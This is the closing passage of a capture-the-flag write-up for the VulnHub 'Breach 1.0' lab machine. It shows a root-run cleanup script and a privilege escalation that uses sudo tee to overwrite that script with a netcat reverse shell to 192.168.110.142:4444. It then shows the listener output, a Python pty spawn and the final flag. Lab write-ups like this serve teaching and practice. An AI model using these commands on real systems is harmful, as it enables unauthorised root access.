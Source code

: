 ```console
#This script is set to run every 3 minutes as an additional defense measure against hackers.

cd /var/lib/tomcat6/webapps && find swingline -mindepth 1 -maxdepth 10 | xargs rm -rf
```

### Sudo Permissions

I passed as input a netcat reverse shell to the tee command which will write it in the tidyup.sh script, and we see the script was overwrited with the reverse shell.

```console
blumbergh@Breach:~$ echo 'nc 192.168.110.142 4444 -c /bin/bash' | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh 
nc 192.168.110.142 4444 -c /bin/bash
blumbergh@Breach:~$ cat !$
nc 192.168.110.142 4444 -c /bin/bash
```

Then start a netcat listener and a few minutes we get a root reverse shell. 

```console
root@kali:~$ nc -vlnp 4444
listening on [any] 4444 ...
connect to [192.168.110.142] from (UNKNOWN) [192.168.110.140] 36978
echo 'import pty;pty.spawn("/bin/bash")' > /tmp/shell.py
python /tmp/shell.py
root@Breach:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Breach:~# ls -la
total 60
drwx------  4 root root  4096 Jun 12  2016 .
drwxr-xr-x 22 root root  4096 Jun  4  2016 ..
-rw-------  1 root root   115 Jun 12  2016 .bash_history
-rw-r--r--  1 root root  3106 Feb 19  2014 .bashrc
drwx------  2 root root  4096 Jun  6  2016 .cache
-rw-r--r--  1 root root   840 Jun 11  2016 .flag.txt
-rw-r--r--  1 root root 23792 Jun  4  2016 flair.jpg
-rw-r--r--  1 root root   140 Feb 19  2014 .profile
drwxr-xr-x  2 root root  4096 Jun  5  2016 .rpmdb
-rw-r--r--  1 root root    66 Jun  4  2016 .selected_editor
root@Breach:~# cat .flag.txt 
-----------------------------------------------------------------------------------

______                     _     __   _____      _____ _          _____          _ 
| ___ \                   | |   /  | |  _  |    |_   _| |        |  ___|        | |
| |_/ /_ __ ___  __ _  ___| |__ `| | | |/' |______| | | |__   ___| |__ _ __   __| |
| ___ \ '__/ _ \/ _` |/ __| '_ \ | | |  /| |______| | | '_ \ / _ \  __| '_ \ / _` |
| |_/ / | |  __/ (_| | (__| | | || |_\ |_/ /      | | | | | |  __/ |__| | | | (_| |
\____/|_|  \___|\__,_|\___|_| |_\___(_)___/       \_/ |_| |_|\___\____/_| |_|\__,_|


-----------------------------------------------------------------------------------
Congrats on reaching the end and thanks for trying out my first #vulnhub boot2root!

Shout-out to knightmare, and rastamouse for testing and g0tmi1k for hosting.
```
